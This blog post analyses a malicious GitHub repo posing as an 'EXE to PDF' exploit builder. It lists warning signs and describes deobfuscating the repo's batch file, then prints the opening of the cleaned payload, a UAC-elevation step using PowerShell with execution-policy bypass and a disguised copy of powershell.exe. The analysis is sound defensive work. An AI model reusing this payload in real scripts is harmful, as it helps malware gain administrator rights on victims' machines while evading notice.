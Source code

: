 This repo was owned by [`Luci441`](https://github.com/luci61)... But for some reasons this looked suspecious to me.

![](https://i.imgur.com/KWaUh7B.png#center)

1. The account is only few days old.
2. The owner claims to be the owner of [Hackforums](https://twitter.com/hackforumsnet).
3. And it only had 6 followers.... Hackforum twitter account had 11.2K Followers at the time of writing this blog.

Anyways, I was more interested into looking how that **EXE to PDF** program worked. So I moved directly to the repo and looked at the source code. The README contained something that made me more suspecious...

![](https://i.imgur.com/FTFCzTv.png#center)

Why make such a tool obfuscated?? Why no VMs supported?? Who makes such a tool and intentionally make it unusable in VMs?

And there is no *how to get started* section with this tool so I'll have to read the code and understand it. Good heavens... Finally I got started with the [`ExploitBuilder.bat`](https://github.com/luci61/Exe-to-pdf/blob/main/ExploitBuilder.bat) file to read the source code.

*There are a lot of things that raise doubt, but that's not what why you are here. Are you?*


#### Simplifying initial payload

After taking a look at all the files inside the repo, it was safe to assume that there was absolutely no need of the C header files (.h files). This was just to make everything a bit more convincing.

First thing first, I forked the repo and removed all the extra files. The forked repo can be found here -> https://github.com/ayedaemon/Exe-to-pdf. *Interestingly, there was a [Pull Request](https://github.com/luci61/Exe-to-pdf/pull/2/commits/9731946651866c7ea8ec5c5cbe654a979b51c55f) to the original repo that mentioned about the malware it contained. But I won't talk about it and ruin the journey* ;)

Most interesting file in the whole repo was the batchfile and it was obfuscated. The whole thing was divided into multiple variables and then the complete command was constructed at runtime by concatinating those jumbled strings. *I gotta admit there is a lot one can do with strings nowadays.*

I cleaned most of the lines with `sed` and then printed them with `python`. Maybe there is a faster and better way to clean it.. I'll be happy to hear if you have any alternative ways to do it easily.

Here is the python notebook that shows the initial deobfuscation. --> https://github.com/ayedaemon/Exe-to-pdf/blob/main/notebook.ipynb

After this, I had the clean payload that was much much easier to read. Here is the clean payload --> https://github.com/ayedaemon/Exe-to-pdf/blob/main/clean_payload.txt


```txt
@echo off
net file
if not %errorlevel%==0 ( powershell -noprofile -ep bypass -command Start-Process -FilePath '%0' -ArgumentList '%cd%' -Verb runas & exit /b )
cd /d %1
copy C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe /y %~dp0%~nx0.exe'
cls
cd %~dp0
```